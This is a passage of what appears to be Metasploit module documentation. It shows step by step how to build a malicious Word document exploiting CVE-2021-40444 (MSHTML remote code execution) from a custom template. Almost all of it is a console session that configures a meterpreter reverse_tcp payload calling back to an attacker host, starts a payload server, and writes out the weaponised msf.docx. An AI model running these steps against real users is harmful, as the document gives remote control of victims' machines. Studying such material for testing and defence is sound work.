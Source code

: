 Pack that to create word document to used as template.

2. Use the template with `msfconsole`.

```
msf6 exploit(windows/fileformat/word_mshtml_rce) > use exploit/windows/fileformat/word_mshtml_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/word_mshtml_rce) > set customtemplate /tmp/readme.docx
customtemplate => /tmp/readme.docx
msf6 exploit(windows/fileformat/word_mshtml_rce) > set srvhost 172.20.7.36
srvhost => 172.20.7.36
msf6 exploit(windows/fileformat/word_mshtml_rce) > set lhost 172.20.7.36
lhost => 172.20.7.36
msf6 exploit(windows/fileformat/word_mshtml_rce) > set verbose true
verbose => true
msf6 exploit(windows/fileformat/word_mshtml_rce) > run
[*] Using URL: http://172.20.7.36:8080/c6RhuAJ0fcW7
[*] Server started.
[*] CVE-2021-40444: Generate a malicious docx file
[*] Using template '/tmp/readme.docx'
[*] Parsing item from template: [Content_Types].xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/endnotes.xml
[*] Parsing item from template: word/footnotes.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/media/
[*] Parsing item from template: word/media/image11.jpg
[*] Parsing item from template: word/media/image17.jpg
[*] Parsing item from template: word/media/image4.png
[*] Parsing item from template: word/media/image18.jpg
[*] Parsing item from template: word/media/image10.jpg
[*] Parsing item from template: word/media/image15.jpg
[*] Parsing item from template: word/media/image19.jpg
[*] Parsing item from template: word/media/image3.jpg
[*] Parsing item from template: word/media/image7.jpg
[*] Parsing item from template: word/media/image14.png
[*] Parsing item from template: word/media/image1.png
[*] Parsing item from template: word/media/image8.jpg
[*] Parsing item from template: word/media/image9.jpg
[*] Parsing item from template: word/media/image16.jpg
[*] Parsing item from template: word/media/image12.jpg
[*] Parsing item from template: word/media/image13.jpg
[*] Parsing item from template: word/media/image2.png
[*] Parsing item from template: word/media/image5.png
[*] Parsing item from template: word/media/image6.jpg
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/settings.xml.rels
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Parsing item from template: word/numbering.xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/mekhalleh/.msf4/local/msf.docx
```

